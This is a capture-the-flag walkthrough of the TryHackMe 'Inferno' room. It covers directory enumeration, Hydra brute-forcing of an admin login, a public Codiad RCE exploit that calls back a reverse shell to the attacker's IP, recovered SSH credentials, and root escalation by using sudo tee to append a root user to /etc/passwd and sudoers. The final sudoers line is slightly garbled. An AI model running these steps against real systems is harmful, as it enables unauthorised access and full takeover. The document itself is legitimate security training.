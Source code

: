 # 69 - Inferno

Room Link --> [https://tryhackme.com/room/inferno](https://tryhackme.com/room/inferno)

### Enumeration

{% code overflow="wrap" lineNumbers="true" %}
```bash
```
{% endcode %}

#### Gobuster enum

{% code overflow="wrap" lineNumbers="true" %}
```bash
gobuster dir -u http://10.10.103.251/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 500 --no-error

/inferno
```
{% endcode %}

We have an authentication page

<figure><img src=".gitbook/assets/image (463).png" alt=""><figcaption></figcaption></figure>

#### Bruteforce with Hydra

<figure><img src=".gitbook/assets/image (14) (1).png" alt=""><figcaption></figcaption></figure>

`admin : dante1` .

Logged in&#x20;

<figure><img src=".gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Initial Access

We search Google for any exploit since we are authenticated as admin user and found: this [repo](https://github.com/WangYihang/Codiad-Remote-Code-Execute-Exploit)

So because we are authenticating twice, we use the cmd:

{% code overflow="wrap" lineNumbers="true" %}
```
python2.7 exploit.py http://admin:dante1@10.10.103.251/inferno/ admin dante1 10.18.88.214 9001 linux
```
{% endcode %}

And got shell

<figure><img src=".gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

There is a .Download.dat file in the /home/dante dir, contains some cipher text.

<figure><img src=".gitbook/assets/image (4) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (5) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We got an SSH credentials: `dante : V1rg1l10h3lpm3`&#x20;

And we are logged in.

### Priv Esc

`sudo -l` - we can run tee as root.

There’s a binary available to run it as sudo. “**tee”** reads from standard input and write to standard output and files. So, we can edit any configuration file to gain root shell

We can use tee to add config to files.

#### /etc/passwd file

Lets add a new root user to /etc/passwd file

{% code overflow="wrap" %}
```bash
dante@Inferno:~$ LFILE=/etc/passwd

dante@Inferno:~$ echo "dking:$(openssl passwd -6 -salt noraj password):0:0:noraj:/root:/bin/bash" | sudo tee -a "$LFILE"

dante@Inferno:~$ su dking
```
{% endcode %}

And we are root.

Or

#### Sudoers file

We can also add dante to the sudoers file to execute all sudo cmds.

```bash
echo "dante ALL=(root) ALL" | sudo tee -a /etc/sudoers o tee -a /etc/sudoers
```

Done!


